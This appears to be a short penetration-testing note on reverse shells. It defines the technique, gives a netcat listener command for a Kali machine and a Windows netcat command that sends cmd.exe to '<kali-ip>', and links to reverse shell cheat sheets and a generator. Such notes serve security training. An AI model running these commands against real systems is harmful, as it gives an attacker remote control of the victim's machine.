

# Reverse Shells

## Explanation

- A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system. 



## Technics

### Preparation on the kali machine

Start listener :

```text
nc -nvlp 1234
```

### Run reverse shell

On the victime host (Windows), download necat.exe : <https://github.com/int0x33/nc.exe/>

And, run netcat :

```text
nc.exe -nv <kali-ip> 1234 -e cmd.exe
```

## CheatSheet & generator

- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

- <https://www.revshells.com/>